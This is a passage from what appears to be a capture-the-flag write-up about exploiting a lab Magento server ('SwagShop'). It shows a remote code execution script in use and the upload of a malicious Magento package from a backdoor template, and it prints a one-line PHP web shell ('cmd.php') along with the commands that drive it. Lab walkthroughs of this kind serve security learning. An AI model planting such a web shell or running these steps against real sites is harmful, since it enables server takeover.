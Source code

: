 `mechanize` is a scriptable browser, and it’s complaining that there’s not login form with a password field. That’s because it’s trying to log into the base of the site. I’ll run it again, this time with the admin login page:

```

root@kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

```

### RCE #2 - Magento Package

When the box was released, there was a second way to get RCE via uploading a Magento package. It seems this method has been patched in the current instance of the box, as `/download` is not longer there. I’ll show how I did it anyway, but you will not be able to replicate this part today.

#### From GitHub

[This GitHub](https://github.com/lavalamp-/LavaMagentoBD) has a template for a malicious Magento package. I’ll download lavalamp\_magento\_bd.tgz, and upload it via http://10.10.10.140/downloader/:

![1557662974804](https://0xdfimages.gitlab.io/img/1557662974804.png)

Now I can use the webshell it installs:

```

root@kali# curl -d 'c=id' http://10.10.10.140/index.php/lavalamp/index
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

#### From Scratch

[This post](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html) gives a good walkthrough for creating a malicious Magento package. I’ll create two files in the following structure:

```

root@kali# tree .
.
├── errors
│   └── cmd.php
└── package.xml

1 directory, 2 files

```

`cmd.php`:

```

<?php system($_REQUEST['cmd']); ?>

```
